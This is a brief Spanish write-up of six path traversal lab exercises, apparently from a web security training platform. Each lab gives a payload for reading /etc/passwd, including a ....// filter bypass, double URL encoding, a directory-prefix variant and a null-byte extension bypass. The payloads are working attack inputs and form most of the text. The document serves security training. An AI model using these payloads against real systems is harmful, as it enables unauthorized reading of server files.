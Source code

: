 
## LAB 1

Clásico path traversal:

```
../../../../../../etc/passwd
```


## LAB 2

Otra forma de hacerlo es tratando de enumerar directamente el directorio raiz:

```
/etc/passwd
```

## LAB 3


Primera forma de bypassear whitelists:

```
....//....//....//....//....//....//....//etc/passwd 
```

## LAB 4


Otra manera de bypassear es url encodeando la / en este caso url encodeamos la / y el % que no suele gustar:

```

..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd 
```


## LAB 5

Cuando tenemos que especificar al inicio un directorio:

```
/var/www/images/../../../../etc/passwd 
```

## LAB 6

Nos especifican una extension, en este caso es jpg, podemos insertarle un byte nulo a ver si le gusta :D

```
../../../../../../../../../etc/passwd%00.jpg
```
